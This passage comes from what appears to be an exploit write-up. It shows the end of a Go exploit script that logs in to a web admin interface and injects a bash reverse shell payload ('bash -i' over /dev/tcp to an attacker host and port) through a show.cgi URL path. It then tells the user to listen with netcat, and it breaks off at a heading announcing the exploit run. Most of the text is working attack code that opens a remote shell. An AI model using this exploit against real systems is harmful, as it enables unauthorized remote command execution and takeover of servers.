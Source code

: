 ```go  
		}

		if sid == "" {
			fmt.Println("Login failed")
			return
		}

		fmt.Println("[+] - Login success, executing payload...")
		fmt.Println("- Using session id:", sid)

		rnum := randString(5)
		fmt.Println("- Using random alphanumeric string:", rnum)

		payload := fmt.Sprintf("bash -c 'exec bash -i &>/dev/tcp/%s/%s<&1'", lhost, lport)
		exp := fmt.Sprintf("http://%s/file/show.cgi/bin/%s|%s|", targetIP, rnum, payload)
		fmt.Println("- Executing payload:", exp)

		req, err = http.NewRequest("POST", exp, nil)
		if err != nil {
			fmt.Println("Error creating request:", err)
			return
		}

		req.AddCookie(&http.Cookie{Name: "sid", Value: sid})

		resp, err = client.Do(req)
		if err != nil {
			fmt.Println("Error sending request:", err)
			return
		}
		defer resp.Body.Close()

		fmt.Println("- Run nc -nlvp 53 on the attacker machine to listen for the shell with netcat. Restart this exploit if that hasn't been done already.")
	} else {
		fmt.Println("Login failed")
	}
}
```  

## **Let's fire off the exploit**  

### Python  

